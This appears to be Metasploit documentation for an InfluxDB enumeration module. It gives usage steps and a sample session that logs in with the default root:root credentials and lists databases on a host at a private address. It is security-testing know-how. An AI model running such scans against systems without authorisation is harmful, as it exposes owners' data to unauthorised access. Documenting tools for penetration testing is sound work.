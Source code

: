 This module enumerates databases on InfluxDB using the REST API using the default authentication of root:root.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/influxdb_enum```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

```
msf5 > use auxiliary/scanner/http/influxdb_enum
msf5 auxiliary(scanner/http/influxdb_enum) > set RHOST 172.25.65.20
RHOST => 172.25.65.20
msf5 auxiliary(scanner/http/influxdb_enum) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(scanner/http/influxdb_enum) > run

[+] 172.25.65.20:8086 - Influx Version: 1.5.1
[+] 172.25.65.20:8086 - Influx DB Found:

{
  "results": [
    {
      "statement_id": 0,
      "series": [
        {
          "name": "databases",
          "columns": [
            "name"
          ],
          "values": [
            [
              "_internal"
            ]
          ]
        }
      ]
    }
  ]
}

[+] File saved in: /Users/unix/.msf4/loot/20180423050119_default_172.25.65.20_influxdb.enum_623871.txt
[*] Auxiliary module execution completed
```